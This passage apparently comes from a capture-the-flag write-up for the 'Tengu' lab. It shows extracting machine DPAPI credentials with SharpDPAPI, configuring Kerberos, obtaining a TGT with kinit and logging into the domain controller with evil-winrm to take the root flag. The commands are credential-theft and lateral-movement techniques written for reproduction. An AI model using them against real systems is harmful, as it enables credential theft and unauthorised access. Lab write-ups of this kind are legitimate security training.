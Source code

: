 
# DPAPI Credentials
I used `SharpDPAPI` to extract machine DPAPI secrets and retrieve credentials for  **T0_c.fowler**.
`.\SharpDPAPI.exe machinecredentials`

![](https://photos.squarezero.dev/file/abir-images/Tengu/27.png)

Unfortunately, I couldn’t use these credentials to log into the DC due to account restrictions.

![](https://photos.squarezero.dev/file/abir-images/Tengu/28.png)

# Kerberos Authentication

I created my krb5.conf configuration file at /etc/.
[Configuring Kerberos](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/7/html/system-level_authentication_guide/configuring_a_kerberos_5_server#configuring-master-kdc)

```Bash
[libdefaults]
        default_realm = TENGU.VL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        TENGU.VL = {
                kdc = dc.tengu.vl
        }

[domain_realm]
        .tengu.vl = TENGU.VL
```

Afterward, I obtained a TGT for **T0_c.fowler** and validated the TGT.
`kinit T0_c.fowler`
![](https://photos.squarezero.dev/file/abir-images/Tengu/31.png)

![](https://photos.squarezero.dev/file/abir-images/Tengu/30.png)

Using the TGT, I logged into the DC and retrieved the root flag.

`evil-winrm -r tengu.vl -i dc.tengu.vl`
![](https://photos.squarezero.dev/file/abir-images/Tengu/32.png)
